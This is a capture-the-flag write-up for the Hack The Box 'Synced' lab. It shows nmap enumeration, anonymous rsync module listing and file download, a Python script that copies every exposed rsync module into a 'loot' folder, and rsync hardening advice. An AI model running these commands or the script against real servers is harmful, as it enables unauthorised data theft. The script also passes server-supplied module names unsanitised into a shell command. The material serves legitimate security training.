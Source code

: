 
# HTB Synced - Write-up
**Prepared by: #AfterDark**

## Introduction

The **HTB Synced** challenge involves exploiting a misconfigured **Rsync** service that allows **anonymous access**. Rsync is a fast and powerful file copying tool used for backups and synchronizations. However, when improperly configured, it can expose sensitive data.

This write-up will guide you through identifying and exploiting Rsync to retrieve the flag.

# Enumeration

# Step 1: Nmap Scan

We start with an **Nmap scan** to identify open ports and running services.

```bash
nmap -p- --min-rate=1000 -sV {target_IP}
```

The scan results show:

```
873/tcp open  rsync
```

Port **873** is open, running an **Rsync daemon**, confirming the presence of an Rsync service.

# Exploitation

# Step 2: Listing Available Rsync Modules

Rsync allows us to **list available shares** using the `--list-only` option:

```bash
rsync --list-only {target_IP}::
```

Output:

```
public          Anonymous Share
```

The **public** module is accessible. We now check its contents:

```bash
rsync --list-only {target_IP}::public
```

Output:

```
flag.txt
```

The **flag.txt** file is inside the public share.

# Step 3: Downloading the Flag

We can download `flag.txt` using:

```bash
rsync {target_IP}::public/flag.txt flag.txt
```

Once downloaded, we read its contents:

```bash
cat flag.txt
```

Output:

```
72eaf5344ebb84908ae543a7198*****
```

**Congratulations!** 🎉 You've successfully exploited Rsync and retrieved the flag.

# Conclusion

- Rsync, when **misconfigured**, allows anonymous access.
- Listing available modules (`--list-only`) can reveal sensitive directories.
- Data can be copied using Rsync commands.
- **Always ensure Rsync is properly secured** to prevent unauthorized access.

# PoC Script

The following Python script automates the exploitation process:

```python
import os
import subprocess
import ipaddress

def get_target_ip():
    while True:
        target = input("Enter the target IP: ").strip()
        try:
            ipaddress.ip_address(target)
            return target
        except ValueError:
            print("[-] Invalid IP address. Please enter a valid IP.")

def scan_rsync(target):
    print(f"[+] Scanning Rsync on {target}:873")
    result = subprocess.run(["nmap", "-p873", target], capture_output=True, text=True)
    if "873/tcp open" in result.stdout.lower():
        print("[+] Rsync is running.")
    else:
        print("[-] Rsync not detected.")
        exit(1)

def extract_modules(target):
    print("[+] Extracting Rsync modules...")
    result = subprocess.run(["rsync", f"rsync://{target}/"], capture_output=True, text=True)
    modules = [line.split()[0] for line in result.stdout.split("
") if line.strip()]
    if modules:
        print("[+] Found Rsync modules:", ", ".join(modules))
        return modules
    else:
        print("[-] No modules found.")
        exit(1)

def download_flag(target, module):
    print(f"[+] Downloading from module: {module}")
    os.system(f"rsync -av rsync://{target}/{module}/ loot/")
    print("[+] Flag saved in loot/")

def main():
    target = get_target_ip()
    scan_rsync(target)
    modules = extract_modules(target)
    for module in modules:
        download_flag(target, module)

if __name__ == "__main__":
    main()
```

# Defensive Measures

To **secure Rsync**, follow these best practices:

- **Disable anonymous access** by setting `auth users` in `rsyncd.conf`.
- **Restrict IP access** using `hosts allow` and `hosts deny` settings.
- **Run Rsync over SSH** instead of in daemon mode.
- **Use authentication** to prevent unauthorized access.

**Stay safe, and happy hacking!** 🚀

---
*Write-up by #AfterDark*
